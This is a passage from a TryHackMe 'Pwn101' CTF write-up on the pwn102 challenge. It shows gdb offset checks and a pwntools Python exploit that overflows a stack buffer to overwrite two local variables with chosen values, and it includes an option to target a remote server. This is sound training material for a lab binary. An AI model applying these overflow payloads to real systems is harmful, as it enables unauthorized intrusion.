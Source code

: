 We let run the program and gives cyclic output as input. When program hits our breakpoint we check the value of “$rbp-4”.

```nasm
x/s $rbp-4
```

```bash
cyclic -l caab
```

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%207.png)

We can understand this 108 char will fill the buffer and overwrite “$rbp-4”. But $rbp-8?

```nasm
$rbp - 4 = 108
$rbp - 8 = 104
```

So our exploit is gonna be:

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn102.pwn102'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
        if args.REMOTE: # Runs on remote server, usage "python2.7 code.py REMOTE ip port"
                return remote(sys.argv[1], sys.argv[2], *a, **kw)
        else: # Runs locally, usage "python2.7 code.py"
                return process([exe] + argv, *a, **kw)

exploit  = b''
exploit += b"\x90"*104 # we fill the buffer 
exploit += pack("<I", 0xc0d3) # we overwrite $rbp-8
exploit += pack("<I", 0xc0ff33) # we overwrite $rbp-4

#If you want to see what we wrote uncomment next two lines
#f = open("input.txt", "wb")
#f.write(exploit)

io = start()
```